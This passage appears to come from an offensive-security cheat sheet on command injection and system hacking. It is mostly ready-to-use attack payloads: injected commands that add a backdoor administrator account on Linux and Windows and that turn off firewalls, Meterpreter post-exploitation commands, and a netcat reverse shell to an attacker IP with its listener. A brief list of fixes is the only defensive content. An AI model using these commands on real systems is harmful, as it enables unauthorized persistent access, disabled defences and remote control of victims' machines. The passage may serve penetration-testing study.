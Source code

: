 If you have enough privileges, add a new user for persistent access.
````bash
  ; useradd -m hacker && echo "hacker:password" | chpasswd         #Linux
  
  #windows
  && net user hacker P@ssw0rd /add
  && net localgroup administrators hacker /add
````
Disable Firewalls
````bash
  ; iptables -F      #linux
  && netsh advfirewall set allprofiles state off       #windows
````
Metasploit (If You Have a Shell)
If you have Meterpreter access:
````bash
  meterpreter > getuid
  #List all users:
  meterpreter > run post/windows/gather/enum_users
  meterpreter > help
````
> How to Fix the Vulnerability?
> > Sanitize input: Use escapeshellcmd() and escapeshellarg().  
> > Whitelist commands: Only allow specific inputs.  
> > Use prepared statements: Avoid direct execution of user input.  
</details>

<h3>__System Hacking__</h3>

##### Netcat Reverse Shell
Attacker (Listener) `nc -lvnp 4444`  
Victim (Windows/Linux) `nc -e /bin/bash <ATTACKER-IP> 4444`

<details><summary><h5>Hydra</h5></summary></details>
<details><summary><h5>RATs</h5></summary>

